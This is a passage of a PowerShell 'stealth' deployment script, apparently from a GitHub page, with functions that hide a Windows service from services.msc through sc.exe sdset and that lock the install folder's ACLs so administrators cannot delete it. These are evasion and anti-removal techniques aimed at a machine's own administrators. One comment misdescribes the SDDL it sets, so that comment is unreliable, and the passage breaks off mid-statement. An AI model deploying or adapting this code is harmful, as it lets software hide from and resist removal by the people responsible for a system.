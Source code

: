 ```powershell
        return $true

    } catch {
        Write-StealthLog "Error applying registry stealth: $_" -Level 'ERROR'
        return $false
    }
}

function Hide-ServiceFromUI {
    Write-StealthLog "Hiding service from Services UI (services.msc)..."

    try {
        $servicePath = "HKLM:\SYSTEM\CurrentControlSet\Services\$($StealthConfig.ServiceName)"

        # Set custom security descriptor to restrict service visibility
        # SDDL string that denies READ access to Administrators and Interactive users
        # Only SYSTEM can manage the service
        $sddl = "D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)"

        sc.exe sdset $StealthConfig.ServiceName $sddl | Out-Null

        Write-StealthLog "Service hidden from standard UI" -Level 'SUCCESS'
        return $true

    } catch {
        Write-StealthLog "Error hiding service: $_" -Level 'WARNING'
        # Non-critical - continue deployment
        return $true
    }
}

function Set-AntiRemovalProtection {
    Write-StealthLog "Configuring anti-removal protection..."

    try {
        # Set restrictive ACLs on installation directory
        $installPath = $StealthConfig.InstallPath

        # Get current ACL
        $acl = Get-Acl -Path $installPath

        # Disable inheritance
        $acl.SetAccessRuleProtection($true, $false)

        # Remove all existing access rules
        $acl.Access | ForEach-Object { $acl.RemoveAccessRule($_) | Out-Null }

        # Add SYSTEM full control
        $systemRule = New-Object System.Security.AccessControl.FileSystemAccessRule(
            'NT AUTHORITY\SYSTEM',
            'FullControl',
            'ContainerInherit,ObjectInherit',
            'None',
            'Allow'
        )
        $acl.AddAccessRule($systemRule)

        # Add Administrators read/execute only (cannot delete)
        $adminRule = New-Object System.Security.AccessControl.FileSystemAccessRule(
            'BUILTIN\Administrators',
            'ReadAndExecute',
            'ContainerInherit,ObjectInherit',
            'None',
```